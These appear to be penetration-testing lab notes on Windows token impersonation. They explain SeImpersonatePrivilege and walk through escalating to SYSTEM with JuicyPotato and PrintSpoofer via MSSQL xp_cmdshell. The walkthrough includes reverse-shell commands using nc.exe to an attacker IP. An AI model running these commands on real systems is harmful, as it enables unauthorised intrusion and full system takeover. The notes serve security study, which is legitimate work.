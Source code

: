 
### **Windows Tokens**

- Every process has a _token_ with user account info and privileges.
- Tokens are in memory (not secure objects), and require privileges to use.
- _SeImpersonatePrivilege_ is needed to utilize another process’s token.
- Common API: `CreateProcessWithTokenW`

---

### **Token Impersonation Attacks**

- Used to escalate from _Administrator_ to _SYSTEM_.
- Attackers trick a _SYSTEM_-level process into connecting to a lower-privileged process, leaking a token.
- Often leveraged via:
    - Web shells (IIS, ASP.NET)
    - Services (e.g., Jenkins, SQL Server)
    - _MSSQL_ with `xp_cmdshell` enabled

---

### **Key Privileges**

|Privilege|Description|
|---|---|
|_SeImpersonatePrivilege_|Impersonate a client after authentication|
|_SeAssignPrimaryTokenPrivilege_|Replace a process-level token|

---

### **Attack Flow Example: JuicyPotato**

1. **Initial Access**: Gained via MSSQL using credentials
2. **Enable `xp_cmdshell`**: `enable_xp_cmdshell` in mssqlclient.py
```bash
mssqlclient.py sql_dev@10.129.43.30 -windows-auth
```
3. **Check Privileges**:
```sql
xp_cmdshell whoami /priv
```
- Look for `SeImpersonatePrivilege`
4. **Upload Tools**:
    - `JuicyPotato.exe`
    - `nc.exe`
5. **Run JuicyPotato**:
```bash
JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c nc.exe <IP> 8443 -e cmd.exe" -t *
```
6. **Result**: Reverse shell as `NT AUTHORITY\SYSTEM`

### **JuicyPotato Limitations**

- **Does NOT work** on:
    - Windows Server 2019+
    - Windows 10 build 1809+

- Alternatives:
    - **PrintSpoofer**
    - **RoguePotato**

---

### **PrintSpoofer Usage**

1. **Run via `xp_cmdshell`**:
```sql
xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe <IP> 8443 -e cmd"
```
2. **Output**: Should indicate successful use of `SeImpersonatePrivilege` and a named pipe being exploited.
3. **Result**: Reverse shell as `NT AUTHORITY\SYSTEM`


4. **Result**: Reverse shell as `NT AUTHORITY\SYSTEM`
    

---

### **Key Considerations**

- Always check for impersonation privileges when gaining RCE through services.
- Choose exploitation tools based on:
    - Host OS version
    - Available privileges

- Maintain multiple techniques (JuicyPotato, RoguePotato, PrintSpoofer

---

### **Helpful Resources**

- Token impersonation whitepaper: _"Bypassing UAC and Abusing Tokens for LPE"_
- Tools:
    - JuicyPotato
    - PrintSpoofer
    - RoguePotato